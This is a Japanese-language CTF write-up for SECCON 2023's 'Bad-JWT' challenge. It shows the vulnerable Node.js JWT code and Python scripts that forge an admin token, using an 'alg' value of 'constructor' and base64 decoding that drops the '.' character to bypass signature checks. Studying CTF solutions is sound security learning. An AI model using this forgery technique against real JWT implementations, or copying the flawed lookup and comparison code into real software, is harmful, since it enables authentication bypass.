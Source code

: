# SECCON CTF 2023 Quals - Bad-JWT

## Challenge

I think this JWT implementation is not bad.

[http://bad-jwt.seccon.games:3000](http://bad-jwt.seccon.games:3000)

### Files

<details>

<summary>配布されたソースコード</summary>

可読性向上のため、一部書き換えています。また、問題を解くにあたって不要な部分は省略しています。

`challenge/src/index.js`

```js
const FLAG = "SECCON{dummy}";
const PORT = "3000";

const express = require("express");
const cookieParser = require("cookie-parser");
const jwt = require("./jwt");

const app = express();
app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());

const secret = require("crypto").randomBytes(32).toString("hex");

app.use((req, res, next) => {
  try {
    const token = req.cookies.session;
    const payload = jwt.verify(token, secret);
    req.session = payload;
  } catch (e) {
    return res.status(400).send("Authentication failed" + e);
  }
  return next();
});

app.get("/", (req, res) => {
  if (req.session.isAdmin === true) {
    return res.send(FLAG);
  } else {
    return res.status().send("You are not admin!");
  }
});

app.listen(PORT, () => {
  const admin_session = jwt.sign("HS512", { isAdmin: true }, secret);
  console.log(`[INFO] Use ${admin_session} as session cookie`);
  console.log(`Challenge server listening on port ${PORT}`);
});
```

`challenge/src/jwt.js`

```js
const crypto = require("crypto");

const base64UrlEncode = (str) => {
  return Buffer.from(str)
    .toString("base64")
    .replace(/=*$/g, "")
    .replace(/\+/g, "-")
    .replace(/\//g, "_");
};

const base64UrlDecode = (str) => {
  return Buffer.from(str, "base64").toString();
};

const algorithms = {
  hs256: (data, secret) =>
    base64UrlEncode(crypto.createHmac("sha256", secret).update(data).digest()),
  hs512: (data, secret) =>
    base64UrlEncode(crypto.createHmac("sha512", secret).update(data).digest()),
};

const stringifyPart = (obj) => {
  return base64UrlEncode(JSON.stringify(obj));
};

const parsePart = (str) => {
  return JSON.parse(base64UrlDecode(str));
};

const createSignature = (header, payload, secret) => {
  const data = `${stringifyPart(header)}.${stringifyPart(payload)}`;
  const signature = algorithms[header.alg.toLowerCase()](data, secret);
  return signature;
};

const parseToken = (token) => {
  const parts = token.split(".");
  if (parts.length !== 3) throw Error("Invalid JWT format");

  const [header, payload, signature] = parts;
  const parsedHeader = parsePart(header);
  const parsedPayload = parsePart(payload);

  return { header: parsedHeader, payload: parsedPayload, signature };
};

const sign = (alg, payload, secret) => {
  const header = {
    typ: "JWT",
    alg: alg,
  };

  const signature = createSignature(header, payload, secret);

  const token = `${stringifyPart(header)}.${stringifyPart(
    payload
  )}.${signature}`;
  return token;
};

const verify = (token, secret) => {
  const { header, payload, signature: expected_signature } = parseToken(token);

  const calculated_signature = createSignature(header, payload, secret);

  const calculated_buf = Buffer.from(calculated_signature, "base64");
  const expected_buf = Buffer.from(expected_signature, "base64");

  if (Buffer.compare(calculated_buf, expected_buf) !== 0) {
    throw Error("Invalid signature");
  }

  return payload;
};

module.exports = { sign, verify };
```

</details>

## Solution

### 1. 正常なアクセスを送信する

ソースコードを見ると、cookieの`session`にJWTトークンを設定すると、署名を検証することがわかります。

```js
const token = req.cookies.session;
```

JWTのシグネチャを計算するのは面倒なので、問題のソースコードを少し書き換えます。

```diff
const verify = (token, secret) => {
  const { header, payload, signature: expected_signature } = parseToken(token);

  const calculated_signature = createSignature(header, payload, secret);
+ console.log({calculated_signature, expected_signature})

  const calculated_buf = Buffer.from(calculated_signature, "base64");
  const expected_buf = Buffer.from(expected_signature, "base64");

  if (Buffer.compare(calculated_buf, expected_buf) !== 0) {
    throw Error("Invalid signature");
  }

  return payload;
};
```

これで適当なJWTトークンを送信すると、シグネチャの計算結果が表示されます。2回送信すれば正しいシグネチャがわかるので署名が受理されるはずです。

```py
import base64
import requests
import json


header = {"typ": "JWT", "alg": "HS256"}
headerStr = json.dumps(header).encode("utf-8")
body = {"isAdmin": True}
bodyStr = json.dumps(body).encode("utf-8")

def base64_encode(str:str):
    return base64.b64encode(str).replace(b"=", b"").replace(b"+", b"-").replace(b"/", b"_")

headerBase64 = str(base64_encode(headerStr))[2:-1]
bodyBase64 = str(base64_encode(bodyStr))[2:-1]

jwt = f"{headerBase64}.{bodyBase64}.ここにシグネチャを入れる"


res = requests.get("http://localhost:3000/", cookies={"session": jwt})

print(res.text)
```

### 2. 不正なシグネチャを作成する

攻撃者が入力できる内容はJWTトークンのみです。つまり、JWTのheader(`alg`, `typ`)、body、signature(壊れているもの)のみです。
ここで、bodyは`{"isAdmin": True}`にするしかなさそうで、かつheaderの`typ`は使用されていなさそうなので、考えられることは以下の2つです。

- headerの`alg`を変更する
- 壊れた`signature`でも署名を通す

結論から言うと、両方とも必要なので、前者から説明します。

`alg`を使用されている箇所を見ると、`createSignature`関数があります。これをよく見ると、なかなか怪しそうです。`algorithms`変数にはオブジェクトが入っていますが、ユーザの入力の文字列をそのまま受け取っています。JavaScriptのオブジェクトに対する`[]`アクセサには、例えば`__proto__`など、いくつかの特殊なキーがあります。今回は式の後半に`(data, secret)`が入っており、アクセスした結果、引数が2つ(またはoptionalな引数がそれ以上)の関数が返ってくる必要があります。

```js
const createSignature = (header, payload, secret) => {
  const data = `${stringifyPart(header)}.${stringifyPart(payload)}`;
  const signature = algorithms[header.alg.toLowerCase()](data, secret);
  return signature;
};
```

そこで、`constructor`を使用します。`constructor`は関数で、引数は可変です。また、`Object[constructor](data, secret)`はdataを文字列として受け取り、`[String: 'eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ']`だけが返ります。つまり、secretに依存しません。

先ほどのコードを少し書き換えて、送信してみます。

```py
import base64
import requests
import json


header = {"typ": "JWT", "alg": "constructor"}
headerStr = json.dumps(header).encode("utf-8")
body = {"isAdmin": True}
bodyStr = json.dumps(body).encode("utf-8")


def base64_encode(str: str):
    return (
        base64.b64encode(str).replace(b"=", b"").replace(b"+", b"-").replace(b"/", b"_")
    )


headerBase64 = str(base64_encode(headerStr))[2:-1]
bodyBase64 = str(base64_encode(bodyStr))[2:-1]

jwt = f"{headerBase64}.{bodyBase64}.foo"

res = requests.get("http://localhost:3000/", cookies={"session": jwt})

print(res.text)
```

すると、以下の内容が返ってきます。

```json
{
  expected_signature: 'foo',
  calculated_signature: [String: 'eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ']
}
```

ここで、jwtのシグネチャを書かれているものと同じにします。

```js
jwt = f"{headerBase64}.{bodyBase64}.eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ"
```

すると当然ですが、`.`が4つではInvalid JWT formatです。また、`expected_signature`はstring、`calculated_signature`はオブジェクトになります。当然これでは一致しません。


### 3. Bypass `Buffer.compare`

`Buffer.from`の[ドキュメント](https://nodejs.org/api/buffer.html#static-method-bufferfromobject-offsetorencoding-length)を読んでみましょう。

以下のテキストが書かれています。

> For objects that support Symbol.toPrimitive, returns Buffer.from(object[Symbol.toPrimitive]('string'), offsetOrEncoding).

試してみましょう！

```js
class Foo {
  [Symbol.toPrimitive]() {
    return "ABC";
  }
}

const buf1 = Buffer.from(new Foo());

console.log({ buf1 }); // { buf1: <Buffer 41 42 43> }
```

確かにテキストの部分のみが取り出されています。ここで、`Buffer.from`の第二引数に`base64`を指定しつつ、Base64として使用されない文字列を挿入してみます。

```js
class Foo {
  [Symbol.toPrimitive]() {
    return "eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9";
  }
}
class Bar {
  [Symbol.toPrimitive]() {
    // add $^.
    return "eyJ0eXAi$O$iJK^V1&Qi.LCJh.&bGc.i^Oi.Jjb.25z^dHJ1Y3RvciJ9"; // ^^
  }
}

const buf1 = Buffer.from(new Foo(), "base64");
const buf2 = Buffer.from(new Bar(), "base64");

console.log({ buf1, buf2 });
//{
//  buf1: <Buffer 7b 22 74 79 70 22 3a 22 4a 57 54 22 2c 22 61 6c 67 22 3a 22 63 6f 6e 73 74 72 75 63 74 6f 72 22 7d>,
//  buf2: <Buffer 7b 22 74 79 70 22 3a 22 4a 57 54 22 2c 22 61 6c 67 22 3a 22 63 6f 6e 73 74 72 75 63 74 6f 72 22 7d>
//}
```

Base64として使用されない文字は無視されることがわかりました。これを利用します。

jwt tokenを以下のように書き換えます。

```py
jwt = f"{headerBase64}.{bodyBase64}.eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9eyJpc0FkbWluIjp0cnVlfQ"
```

すると、`signature`は確かに違いますが、`Buffer.from`でピリオドが削除され、`Buffer.compare`の結果が0になります。

```txt
{
  expected_signature: 'eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9eyJpc0FkbWluIjp0cnVlfQ',
  calculated_signature: [String: 'eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ'],
  calculated_buf: <Buffer 7b 22 74 79 70 22 3a 22 4a 57 54 22 2c 22 61 6c 67 22 3a 22 63 6f 6e 73 74 72 75 63 74 6f 72 22 7d 7b 22 69 73 41 64 6d 69 6e 22 3a 74 72 75 65 7d>,
  expected_buf: <Buffer 7b 22 74 79 70 22 3a 22 4a 57 54 22 2c 22 61 6c 67 22 3a 22 63 6f 6e 73 74 72 75 63 74 6f 72 22 7d 7b 22 69 73 41 64 6d 69 6e 22 3a 74 72 75 65 7d>
}
```

### 4. Get flag

```txt
SECCON{Map_and_Object.prototype.hasOwnproperty_are_good}
```
